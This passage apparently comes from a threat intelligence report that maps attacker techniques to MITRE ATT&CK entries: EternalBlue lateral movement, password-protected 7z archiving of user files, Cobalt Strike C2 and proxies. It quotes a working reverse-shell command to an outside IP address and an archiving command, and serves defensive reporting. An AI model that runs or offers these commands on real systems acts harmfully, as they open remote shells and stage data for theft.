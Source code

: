 

The attackers exploited vulnerability MS17-010 (EternalBlue) to move laterally to other systems in the compromised network
		





Collection






			 T1560
		



			 Archive Collected Data
		



The attackers ran a console command to create an archive of files of types interesting to them from user directories on the infected hosts. Examples: 7z.exe a -padminadmin -mhe=on -mx9 his.7z hist*.
		





Command and Control (C2)






			 T1071
		



			 Application Layer Protocol
		



The attackers used the HTTPS Cobalt Strike Beacon, as well as a version with named channels
		





			 T1090
		



			 Proxy
		



			 The attackers used proxy servers inside the network. Examples: FRP, bash -i >& /dev/tcp/115.144.122.8/5555 0>&1.
		





			 T1105
		